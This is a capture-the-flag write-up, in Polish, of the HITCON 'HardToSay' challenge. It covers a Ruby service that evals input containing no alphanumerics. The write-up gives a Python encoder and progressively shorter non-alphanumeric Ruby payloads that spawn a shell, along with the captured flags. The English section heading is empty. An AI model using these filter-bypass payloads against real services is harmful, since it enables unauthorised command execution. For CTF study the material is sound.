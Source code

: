 ﻿## HardToSay (misc, 200p, ?? solves)

    Ruby on Fails.
    FLAG1: nc 54.199.215.185 9001
    FLAG2: nc 54.199.215.185 9002
    FLAG3: nc 54.199.215.185 9003
    FLAG4: nc 54.199.215.185 9004

    hard_to_say-151ba63da9ef7f11bcbba93657805f85.rb

### PL
[ENG](#eng-version)

Dostajemy taki kod:

```ruby

#!/usr/bin/env ruby

fail 'flag?' unless File.file?('flag')

$stdout.sync = true

limit = ARGV[0].to_i
puts "Hi, I can say #{limit} bytes :P"
s = $stdin.gets.strip!

if s.size > limit || s[/[[:alnum:]]/]
  puts 'oh... I cannot say this, maybe it is too long or too weird :('
  exit
end

puts "I think size = #{s.size} is ok to me."
r = eval(s).to_s
r[64..-1] = '...' if r.size > 64
puts r
```

Jak widać pobiera on od użytkownika kod, i evaluje go - ale tylko pod warunkiem że nie zawiera znaków alfanumerycznych i jest odpowiednio krótki.

Są cztery serwery z zadaniem - każdy z nich przyjmuje mniej znaków. Pierwszy 1024, drugi 64, trzeci 36, a czwarty tylko 10. Za pokonanie każdego dostajemy 50 punktów.

Najlepszym rozwiązaniem na jakie wpadliśmy na początku to wykonanie operacji na shellu za pomocą backticków (``` ` ```) i interpolowania stringów.
Napisaliśmy sobie prosty enkoder wykonujący dowolne (odpowiednio krótkie) polecenie shellowe:

```python
def encode(cmd):
    out = """a1 = $$/$$
    a2 = a1+a1
    a4 = a2+a2
    a8 = a4+a4
    a16 = a8+a8
    a32 = a16+a16
    a64 = a32+a32
    """

    ss = []
    for c in cmd:
        cc = ord(c)
        vs = []
        for b in range(8):
            if (2**b) & ord(c):
                vs.append('a'+str(2**b))
        ss.append('(' + '+'.join(vs) + ")")
    s = '(""<<' + '<<'.join(ss) + ")"

    end = "`#{" + s + "}`"

    start = out + end

    varnames = ['_'*i for i in range(1,10)][::-1]

    start = start.replace('a64', varnames.pop())
    start = start.replace('a32', varnames.pop())
    start = start.replace('a16', varnames.pop())
    start = start.replace('a8', varnames.pop())
    start = start.replace('a4', varnames.pop())
    start = start.replace('a2', varnames.pop())
    start = start.replace('a1', varnames.pop())
    start = ';'.join(start.split('\n'))
    return start

import sys
print encode(sys.argv[1])
```

    hitcon{what does the ruby say? @#$%!@&(%!#$&(%!@#$!$?...}

+50 punktów. Zdobyliśmy w ten sposób pierwszą flagę. Niestety, okazało się że nie da się ukraść jednej flagi mając shella od drugiej flagi (brak uprawnień) i musieliśmy
kombinować dalej...

Postanowiliśmy złożyć string "sh". Nasza druga próba, dla 64 znaków, wyglądała tak:

    _=$$;$_=*?`..?{;`#{$_[_*_+_-_/_]+$_[_+_]}`

    hitcon{Ruby in Peace m(_ _)m

+50 punktów. A następnie dla 36 bajtów:

    _=*?[..?{;`#{_[~--$$-$$]+_[~$$*$$]}`

    hitcon{My cats also know how to code in ruby :cat:}

+50 punktów. Później myśleliśmy dłuższą chwilę, ale wpadliśmy na to, że wykonanie $0 również powinno dać nam shell - spróbowaliśmy więc:

    `$#{~-$.}`

    hitcon{It's hard to say where ruby went wrong QwO} 

W ten sposób zdobyliśmy kolejne 50 punktów, rozwiązując w ten sposób całe zadanie.

### ENG version

